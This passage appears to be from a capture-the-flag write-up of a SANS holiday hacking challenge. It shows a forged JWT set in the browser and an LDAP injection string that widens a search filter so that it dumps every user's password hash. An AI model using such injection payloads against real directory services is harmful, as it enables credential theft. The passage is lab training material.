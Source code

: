 ![Craft new JWT](/images/2018/01/edb_craft_jwt.png)

I used `localStorage.setItem('np-auth', '<data>')` in Firefox to set the new JWT, refreshed the page and I was logged in to the Elf Database!

## Part 3 - LDAP Injection
The next part of the challenge required some LDAP injection. The hint pointed to a [great blogpost](https://pen-testing.sans.org/blog/2017/11/27/understanding-and-exploiting-web-based-ldap) about web-based LDAP injection, so I started looking for areas within the application that accepted LDAP in parameters:

![EDB LDAP Search](/images/2018/01/edb_ldap_search.png)

Also, in the source code for one of the pages was a comment that detailed the exact LDAP lookup that's performed:

```
//Note: remember to remove comments about backend query before going into north pole production network
                /*

                isElf = 'elf'
                if request.form['isElf'] != 'True':
                    isElf = 'reindeer'
                attribute_list = [x.encode('UTF8') for x in request.form['attributes'].split(',')]
                result = ldap_query('(|(&(gn=*'+request.form['name']+'*)(ou='+isElf+'))(&(sn=*'+request.form['name']+'*)(ou='+isElf+')))', attribute_list)

                #request.form is the dictionary containing post params sent by client-side
                #We only want to allow query elf/reindeer data

                */
```

As well as "robots.txt" leading to an LDIF template of the LDAP structure: http://edb.northpolechristmastown.com/dev/LDIF_template.txt

I wante to use LDAP injection to dump *all* LDAP entries *including* the userPasswort attribute.

To start with I, created the exact LDAP query used when I just searched for "ala":

```
(|(&(gn=*ala*)(ou='elf'))(&(sn=*ala'*)(ou=elf)))
```

If I injected some special characters into the search field, I could escape out and modify the query. By searching for the name `)(ou=*))(|(cn=`, the query became:

```
(|(&(gn=*)(ou=*))(|(cn=*)(ou='elf'))(&(sn=*)(ou=*))(|(cn=*)(ou=elf)))
```
Which returns all results from any OU. Finally, by adding "userPassword" to the list of attributes in the POST request, I dumped the password hash for every user, including Santa!

![EDB LDAP Dump](/images/2018/01/edb_ldap_all.png)
